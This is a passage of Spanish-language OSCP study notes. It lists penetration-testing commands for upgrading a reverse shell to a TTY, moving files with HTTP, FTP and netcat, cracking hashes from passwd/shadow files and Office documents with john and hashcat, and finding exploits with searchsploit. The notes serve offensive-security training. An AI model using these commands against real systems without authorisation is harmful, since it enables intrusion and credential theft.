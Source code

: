  

### Tratamiento de la TTY[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#tratamiento-de-la-tty)

```python

script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a

 
### Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'
```
 

### Descompresión
```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```

 

### Comparación de archivos
```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```

### Transferencia de archivos
```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt


#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

```

```python
tcpdump -i tun0 icmp -n
 

### Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

​

#Cracking de documentos encriptados de Office

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>


### Búsqueda de exploits[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#busqueda-de-exploits)
```
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```